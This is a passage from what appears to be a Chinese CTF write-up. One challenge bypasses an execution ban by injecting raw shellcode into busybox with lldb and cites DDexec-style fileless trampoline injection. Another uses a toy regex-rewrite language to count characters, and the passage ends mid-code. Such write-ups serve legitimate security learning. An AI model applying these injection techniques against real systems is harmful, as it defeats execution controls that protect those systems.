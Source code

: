 ```python
```

## 17. 禁止执行，启动

### Flag 1

第一问给的环境里面有个 lldb，因此可以通过 lldb 往 busybox 注入给定的 shellcode 来实现执行相应的程序。

```bash
lldb /bin/busybox
process launch --stop-at-entry
p/x $pc
memory write $pc 0x48 0xc7 0xc0 0x24 0x02 0x00 0x00 0x48 0x31 0xff 0x48 0x89 0xe6 0x0f 0x05 0x48 0xc7 0xc0 0x01 0x00 0x00 0x00 0x48 0x89 0xc7 0x48 0x89 0xe6 0x48 0xc7 0xc2 0x20 0x00 0x00 0x00 0x0f 0x05
```

### Flag 2

第二问参考 Github 的 [DDexec](https://github.com/arget13/DDexec/blob/main/ddsc.sh)

这段代码中实现了往必经路径上中注入跳板代码，修改跳板代码为我们的 shellcode 即可。

## 18. 关键词过滤喵，谢谢喵

### 字数统计喵

首先，字数统计对于文字本身是无关的，一开始可以把所有字符替换成同一字符。

然后需要实现这么两个功能：

1. 从字符串中删去一个字符
2. 将答案区答案 +1

具体代码如下：
```
把【[\s\S]】替换成【A】喵
把【$】替换成【⭕️0】喵
如果没看到【A】就跳转到【结束】喵

外层循环：
把【A⭕️】替换成【⭕️】喵
把【⭕️(.*)】替换成【⭕️\1X】喵

内层循环：
如果看到【⭕️X】就跳转到【找到⭕️】喵
如果看到【0X】就跳转到【找到0】喵
如果看到【1X】就跳转到【找到1】喵
如果看到【2X】就跳转到【找到2】喵
如果看到【3X】就跳转到【找到3】喵
如果看到【4X】就跳转到【找到4】喵
如果看到【5X】就跳转到【找到5】喵
如果看到【6X】就跳转到【找到6】喵
如果看到【7X】就跳转到【找到7】喵
如果看到【8X】就跳转到【找到8】喵
如果看到【9X】就跳转到【找到9】喵

找到⭕️：
把【⭕️X】替换成【⭕️1X】喵
如果没看到【😀】就跳转到【内层收尾】喵
找到0：
把【0X】替换成【1X】喵
如果没看到【😀】就跳转到【内层收尾】喵
找到1：
把【1X】替换成【2X】喵
```
